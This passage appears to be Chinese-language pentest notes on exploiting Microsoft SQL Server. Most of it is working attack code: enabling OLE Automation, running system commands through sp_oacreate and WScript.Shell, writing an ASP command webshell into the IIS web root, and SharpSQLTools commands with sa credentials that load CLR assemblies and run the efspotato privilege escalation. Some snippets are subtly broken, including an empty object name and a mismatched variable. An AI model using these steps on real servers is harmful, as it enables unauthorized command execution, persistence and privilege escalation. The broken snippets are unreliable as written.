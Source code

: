 1. 启用sp_oacreate

   ```mssql
   EXEC sp_configure 'show advanced options',1;
   RECONFIGURE WITH OVERRIDE;
   EXEC sp_configure 'Ole Automation Procedures',1;
   RECONFIGURE WITH OVERRIDE;
   ```

2. 执行系统命令

   ```mssql
   declare @shell int EXEC sp_oacreate 'wscript.shell',@shell output EXEC sp_oamethod @shell,'run','null','c:\windows\system32\cmd.exe /c whoami > c:\\1.txt' 
   	拆分如下：
   declare @shell int 		//定义变量shell
   EXEC sp_oacreate 'wscript.shell',@shell output 		//创建一个 WScript.Shell对象，并将其句柄赋值给变量shell
   EXEC sp_oamethod @shell,'c:\windows\system32\cmd.exe /c whoami > c:\\1.txt' //通过shell来执行系统命令
   ```

3. 写入Webshell

   ```mssql
   declare @o int,@f int,@ret int
   EXEC sp_oacreate 'scripting.filesystemobject', @o out
   EXEC sp_oamethod @o,'createtextfile',@f out,'c:\inetpub\wwwroot\shell.asp',1
   EXEC @ret=sp_oamethod @f,'writeline',NULL,'<%25execute(request("cmd"))%25>'
   ```

4. 利用com组件执行命令

   ```mssql
   declare @luan int,@exec int,@text int,@str varchar(8000);
   EXEC sp_oacreate ' ',@luan output;	//该句柄对应Wscript.Shell
   EXEC sp_oamethod @luan,'exec',@exec output,'C:\windows\system32\cmd.exe /c whoami';
   EXEC sp_oamethod @exec,'stdOut',@text out;
   EXEC sp_oamethod @test,'readall',@str out;
   select @str;
   ```

##### e. 利用工具

1. SharpSQLTools

   * 可实现上传、下载文件，**xp_cmdshell与sp_oacreate双回显**和clr加载程序集执行相应功能

   ```
   SharpSQLTools.exe 192.168.172.150 sa[username] ICQsafe666[password] master enable_ole
   SharpSQLTools.exe 192.168.172.150 sa[username] ICQsafe666[password] master sp_oacreate whoami
   ```

#### (4). 本地存储过程

* 指用户创建的自定义存储过程，如CLR(Common Language Infrastruvture,公共语言基础结构),用来支持不同编程语言
* 直接本地新建存储过程相对复杂，故直接**利用工具SharpSQLTools**进行实现

```
SharpSQLTools.exr 192.168.172.150 sa[username] ICQsafe666[password] master install-clr
SharpSQLTools.exr 192.168.172.150 sa[username] ICQsafe666[password] master enable_clr
SharpSQLTools.exr 192.168.172.150 sa[username] ICQsafe666[password] master clr_efspotato whoami
```
